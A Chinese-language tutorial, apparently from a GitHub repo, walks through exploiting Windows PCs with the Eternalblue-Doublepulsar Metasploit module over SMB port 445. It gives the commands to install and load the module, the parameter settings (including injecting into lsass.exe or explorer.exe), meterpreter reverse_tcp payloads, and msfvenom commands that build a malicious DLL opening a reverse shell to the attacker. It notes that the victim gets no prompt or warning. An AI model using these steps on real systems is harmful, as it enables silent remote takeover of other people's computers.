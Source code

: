 #利用Metasploit中的Eternalblue和Doublepulsar Exploit远程Windows PC

##如何利用Eternalblue-Doublepulsar完成渗透测试
这个漏洞利用了两个工具“Eternalblue”和“Doublepulsar”的组合，“Eternalblue”它可以作为windows中的后门使用，而“Doublepulsar”则用于在有效载荷的帮助下注入DLL文件。因此，我们将在Metasploit框架中手动添加此漏洞

攻击者：Kali  **IP:192.168.43.196**

victim：所有拥有该漏洞的Windows操作系统  **IP:192.168.43.14**
##首先我需要先通过github获取该漏洞文件，即ruby文件
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
![clone](ch2/1/download.png)
然后打开文件夹将eternalblue-doublepulsar.rb文件加载到相对应的路径，只有这么做才可以在Metasploit中添加此漏洞

###需要注意的是，我们需要将eternalblue-doublepulsar.rb文件移动到路径
```
/usr/share/metasploit-Framework/module/exploits/windows/smb
```
还需要观察到这里还有一个名为**deps**的文件夹，后面会用到
![路径](ch2/1/yidong.png)

##接着加载Metasploit开始渗透测试
```
msfconsole
```
该模块通过eternalblue利用SMBv1和SMBv2协议的漏洞。之后，doublepulsar被用于远程注入恶意DLL

Metasploit框架加载完成之后，我们首先输入该命令，使其加载我们刚才添加的漏洞
```
reload_all
```
接下来我们使用该命令搜索刚才添加的漏洞
```
search eternalblue_doublepulsar
```
![搜索](ch2/1/sousuo.png)
找到对应的路径时候我们使用该漏洞
```
use windows/smb/eternalblue_doublepulsar
```
![参数](ch2/1/canshu.png)
###参数讲解
1:***ETERNALBLUEPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps
此处观察到上面所提到的deps文件夹，因为我是将eternalblue_doublepulsar-metasploit文件放在用户的家目录下面，所以我的默认路径就为/root/eternalblue_doublepulsar-metasploit/deps，如果你是将eternalblue_doublepulsar-metasploit文件放在你的Kali桌面上，路径即为/root/Desktop/eternalblue_doublepulsar-metasploit/deps，以此类推
注意更改路径不能错，不然无法渗透成功

2：***DOUBLEPULSARPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps，也还是提到了deps文件夹，和上述一样的设置即可

3：***PROCESSINJECT***：该参数默认值为lsass.exe，该参数根据你选择的victim的系统而决定，如果victim的系统为x64，则该参数设置为lsass.exe，如果victim的系统为x86，则该参数设置为explorer.exe

4：***TARGETARCHITECTURE***：该参数描述的是victim的系统结构，即x64还是x86，该参数默认值为x86，如果victim的系统为x64，则该参数设置为x64，如果victim的系统为x86，则该参数设置为x86

5：***RHOST/RHOSTS***：该参数默认值为空，该参数设置的是victim的IP地址

6：***RPORT***：该参数的默认值为445，不需要去更改，因为该漏洞就是利用445端口

7：***WINEPATH*** ：该参数是wine运行的路径，设置DLL文件的位置，不需要修改
![参数设置](ch2/1/canshushezhi.png)

在上述设置全部完成之后，我们还需要设置payload
对与payload的生成，也需要注意victim的系统架构是x64还是x86，我们直接使用***msfvenom***生成即可

x86的payload为：
```
set payload windows/meterpreter/reverse_tcp 
```
x64的payload为：
```
set payload windows/x64/meterpreter/reverse_tcp 
```

完成之后我们接着设置本地的IP地址和本地监听端口，该地址为Kali的IP地址，本地监听端口只要防火墙没有堵塞的端口都可以
```
set LHOST=x.x.x.x

set LPORT=4444
```
![payload设置](ch2/1/payload1.png)
最后我们还记得上面提到的DLL文件吗？
我们也需要根据victim的系统选择生成该DLL文件

x86的DLL文件为：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
x64的DLL文件为：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
![DLL设置](ch2/1/dll.png)
万事俱备，只欠一条exploit命令
```
epxloit
```
![渗透成功](ch2/1/metasploit.png)

这是正常渗透成功的页面，无需victim任何操作，而且victim毫无反应，任何提示都没有

现在来查看一下victim系统信息
![渗透成功](ch2/1/sysinfo.png)

渗透成功了，是不是很简单，记住渗透过程中的关键点就可以完成这一次渗透测试

Enjoy It!!!



如果帮助到你了，希望可以得到你的打赏，谢谢